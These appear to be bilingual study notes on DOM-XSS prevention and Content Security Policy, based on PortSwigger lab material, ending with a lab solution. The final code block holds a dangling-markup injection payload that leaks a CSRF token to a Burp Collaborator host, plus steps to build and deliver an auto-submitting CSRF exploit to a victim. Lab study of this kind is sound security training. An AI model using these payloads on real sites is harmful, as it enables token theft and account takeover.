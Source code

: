 ## How to prevent DOM-XSS vulnerabilities

In addition to the general measures described on the [DOM-based vulnerabilities](https://portswigger.net/web-security/dom-based) page, you should avoid allowing data from any untrusted source to be dynamically written to the HTML document.

# Content security policy

CSP是一种浏览器安全机制，旨在缓解[XSS](https://portswigger.net/web-security/cross-site-scripting)以及其他一些攻击

它通过限制

- 页面可以**加载**的资源（如脚本和图像）

- 一个页面可以被其他页面**嵌套**。


要启用CSP，响应需要包含一个名为Content Security Policy的HTTP响应头，其值包含该策略。策略本身由一个或多个指令组成，用分号（;）分隔。

## Mitigating XSS attacks using CSP

The following directive will only allow scripts to be loaded from the [same origin](https://portswigger.net/web-security/cors/same-origin-policy) as the page itself:

```javascript
script-src 'self'
```

The following directive will only allow scripts to be loaded from a specific domain:

```javascript
script-src https://scripts.normal-website.com
```

除了将特定域列入白名单之外，内容安全策略还提供了另外两种指定受信任资源的方法：nonce和hash：

- 指定一个nonce（随机值），并且在加载脚本的标记中必须使用相同的值

- 指定受信任脚本内容的哈希


CSP通常会阻止脚本之类的资源。但是，许多CSP**allow image requests**。这意味着可以经常使用`img`元素向外部服务器发出请求，例如以公开[CSRF令牌](https://portswigger.net/web-security/csrf/tokens)

```javascript
lab1：
<script>
location='https://your-lab-id.web-security-academy.net/my-account?email=%22%3E%3Ctable%20background=%27//your-collaborator-id.burpcollaborator.net?';
</script>

<script>
location='https://your-lab-id.web-security-academy.net/my-account?email="><table background='//your-collaborator-id.burpcollaborator.net?';
</script>

get csrf value first

then use burp to generate CSRF POC 
Engagement tools -> Generate CSRF PoC ->Options ->Include auto-submit script -> Regenerate ->Copy HTML -> Deliver exploit to victim

POC自动提交
<script>
    document.forms[0].submit();
</script>
```
